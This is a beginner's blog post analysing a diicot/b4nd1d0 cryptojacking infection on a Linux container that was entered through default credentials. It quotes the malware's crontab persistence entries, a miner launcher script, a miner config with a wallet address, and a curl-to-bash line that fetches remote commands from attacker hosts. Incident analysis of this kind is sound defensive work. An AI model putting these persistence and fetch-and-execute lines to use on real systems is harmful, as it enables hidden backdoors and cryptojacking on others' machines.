 ```yaml
---
layout: post
title: a beginner's analysis to b4nd1d0 and diicot malware.
date: 2024-09-29 16:10:00
description: How b4nd1d0 and diicot malwares works on a linux container
tags: malware
categories: malware
thumbnail: assets/img/thumbnail/virus.png
---
```


Malwares are one of the more destructive cyber-threats that daily endangers millions of computers and servers. In my case one of the many servers that I use was compromised. The following is my understanding of the attack that will likely change. I'm going to describe our set-up and the hint that I gained from manual log analysis and a bit of google search.

### Setup

- LXC Container
- Public IP address
- Default credentials
  
The perfect recipe for a disaster.

### Detection

The detection of this attack was done by an automatic mail signaling abnormal traffic directed to some Linux machines via SSH, with a lot of errors returned by these machines.

The logs were like this:
```

2024-09-25T06:11:27.008471+00:00 Linux03 sshd[490844]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=MY_IP  user=root
2024-09-25T06:11:28.679602+00:00 Linux03 sshd[490844]: Failed password for root from MY_IP port 36986 ssh2
2024-09-25T06:11:30.056913+00:00 Linux03 sshd[491084]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=MY_IP  user=root
...
```
There was in action a Login brute-force attack originating from our server trying to gain access to another machine.
Once logged on looking at the logs from one of the unprivileged account, the *admin* one, the ssh service was trying to log in as different user to other IP address.

### Infection and foothold

The malware gained access by exploiting the default credential of the admin's account *admin:admin*. The admin account was not in the sudoers and had just docker installed. A lateral movement is highly improbable because the root account was never utilized by the attacker. 
The attacker was probably another 

### Securing the foothold

The foothold was secured by using some chrontab script:

The b4ndid0 script was responsable for launching a cryptominer.
At every restart the diicot script was running.
Every 30 second the c script queries a website for new command. 

```
crontab -l
@daily /var/tmp/Documents/./.b4nd1d0
@reboot /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
@reboot /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
* * * * * /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
* * * * * /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
@monthly /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
@monthly /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
*/30 * * * * /var/tmp/Documents/./.c > /dev/null 2>&1 & disown
*/30 * * * * /var/tmp/Documents/./.c > /dev/null 2>&1 & disown
```

Using disown jobs -l was empty

### Scope of the attack

### [diicot](https://www.cadosecurity.com/blog/tracking-diicot-an-emerging-romanian-threat-actor)
Diicot, formerly [Mexals](https://www.bitdefender.co.uk/blog/labs/how-we-tracked-a-threat-group-running-an-active-cryptojacking-campaign/), is a cryptojacking campaigns that targets insicure linux distributions. It relies on Shell Script Compiler for obfuscate his presence.


### b4nd1d0
b4nd1d0 launch the Opera process responable for mining the crypto.
```
#!/bin/bash
m1lbe1()
{
if ! pgrep -x Opera >/dev/null
then
                cd /var/tmp/Documents
        ./Opera >/dev/null 2>&1
else
                exit 1
fi
}
m1lbe1

```


### c

Used for receiving command remotely
```
curl -s evil_pub_ip/.x/black3 --connect-timeout 15 | bash >/dev/null 2>&1 || curl -s diicot.xyz/.x/black3 --connect-timeout 15 | bash >/dev/null 2>&1
```

### config.yaml
Configuration for the miner.

```
admin@machine:/# cat /var/tmp/Documents/config.json 

            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null,
            "submit-to-origin": false
        },
        {
            "algo": null,
            "coin": null,
            "url": "BadUrl:80",
            "user": "87Fxj6UDiwYchWbn2k1mCZJxRxBC5TkLJQoP9EJ4E9V843Z9ySeKYi165Gfc2KjxZnKdxCkz7GKrvXkHE11bvBhD9dbMgQe",
            "pass": "proxy2",
            "rig-id": "",
            "nicehash": false,
            "keepalive": false,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null,
            "submit-to-origin": false
        }

```

### recover

- Remove all from crontab 
- Delete the /tmp/Documents folder
- Stop new services
  

### Learning points:
USE SECURE PASSWORDS